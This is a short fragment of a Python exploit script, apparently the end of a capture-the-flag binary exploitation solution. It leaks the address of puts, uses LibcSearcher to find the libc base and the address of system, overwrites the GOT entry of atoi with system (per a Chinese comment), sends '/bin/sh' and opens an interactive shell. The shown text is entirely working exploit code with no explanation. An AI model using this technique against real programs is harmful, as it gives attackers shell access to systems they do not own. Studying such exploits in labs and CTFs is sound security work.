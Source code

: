```python
puts_addr = u64(sh.recv(6).ljust(8,b'\x00'))  
  
print (hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)  
  
libc_base = puts_addr - libc.dump('puts')  
system_addr = libc_base + libc.dump('system');  
#修改atoi的got地址为system的got地址  
edit(2,p64(system_addr))  
  
#get shell  
sh.sendlineafter('$','/bin/sh')  
  
sh.interactive()  
```